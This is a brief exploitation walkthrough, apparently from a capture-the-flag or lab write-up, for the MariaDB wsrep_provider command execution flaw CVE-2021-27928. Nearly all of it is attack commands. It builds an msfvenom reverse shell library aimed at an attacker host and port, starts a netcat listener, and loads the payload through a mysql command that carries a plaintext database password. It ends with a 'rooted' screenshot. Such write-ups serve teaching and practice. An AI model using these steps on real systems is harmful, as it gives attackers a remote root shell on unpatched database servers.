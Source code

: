 There is a OS Command Execution vulnerability in MariaDB 10.2 before 10.2.37, **10.3 before 10.3.28**, 10.4 before 10.4.18, and 10.5 before 10.5.9 [CVE-2021-27928](https://jira.mariadb.org/browse/MDEV-25179):https://www.exploit-db.com/exploits/49765

Follow the PoC

1. Create the reverse shell payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```

1. Start a listener
```bash
nc -lvp <port>
```

3. Copy the payload to the target machine
4. Execute the payload
```bash
mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
```

![](screenshots/rooted.png)

